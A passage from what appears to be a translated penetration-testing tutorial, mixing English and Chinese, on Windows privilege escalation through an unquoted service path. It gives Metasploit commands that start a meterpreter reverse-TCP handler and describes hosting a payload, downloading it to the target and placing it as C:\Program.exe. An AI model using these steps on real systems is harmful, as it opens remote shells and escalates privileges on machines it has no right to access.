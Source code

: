 3.  Start a reverse handler on your Kali machine using the following commands:

    ```
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost x.x.x.x
          set lport xxx
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_012.jpg)

4.  现在，让我们在 Windows 系统上获取此文件。由于我们关注的是权限升级，我们只需将其托管在 web 服务器上，然后下载到 Windows 计算机上即可。
5.  Once the file is downloaded, we find a way to put it in the `C` drive so that the path resembles `C:\Program.exe`. This is only possible if the permissions are set incorrectly, or a misconfigured FTP setting points the path to the `C` drive, or any misconfiguration that allows us to paste our code on the path:

    ![How to do it...](img/image_09_013.jpg)

